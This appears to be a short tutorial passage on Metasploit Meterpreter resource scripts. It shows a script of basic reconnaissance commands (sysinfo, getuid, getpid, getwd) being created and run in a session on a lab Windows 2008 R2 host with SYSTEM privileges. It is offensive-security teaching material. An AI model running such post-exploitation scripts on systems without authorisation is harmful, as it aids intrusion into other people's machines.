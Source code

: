 - Before we can use resource scripts in our Meterpreter session.
-  We first need to create the directory where we will be placing the scripts, for which we will use the `mkdir` command with the `-p` option so that it will create all the parent directories:

## For the first script, we will start with some basic commands to get system information:
```python
┌──(root㉿kali)-[/home/hyok]
└─# cat > ~/.msf4/scripts/resource/meterpreter/systeminfo.rc

sysinfo
getuid
getpid
getwd
^C
```

## Let's try the resource script in a Meterpreter session and see how it works:
```python
meterpreter > resource systeminfo.rc
[*] Processing /root/.msf4/scripts/resource/meterpreter/systeminfo.rc for ERB directives.
resource (/root/.msf4/scripts/resource/meterpreter/systeminfo.rc)> sysinfo
Computer        : VAGRANT-2008R2
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
resource (/root/.msf4/scripts/resource/meterpreter/systeminfo.rc)> getuid
Server username: NT AUTHORITY\SYSTEM
resource (/root/.msf4/scripts/resource/meterpreter/systeminfo.rc)> getpid
Current pid: 4444
resource (/root/.msf4/scripts/resource/meterpreter/systeminfo.rc)> getwd
C:\Windows\system32
```
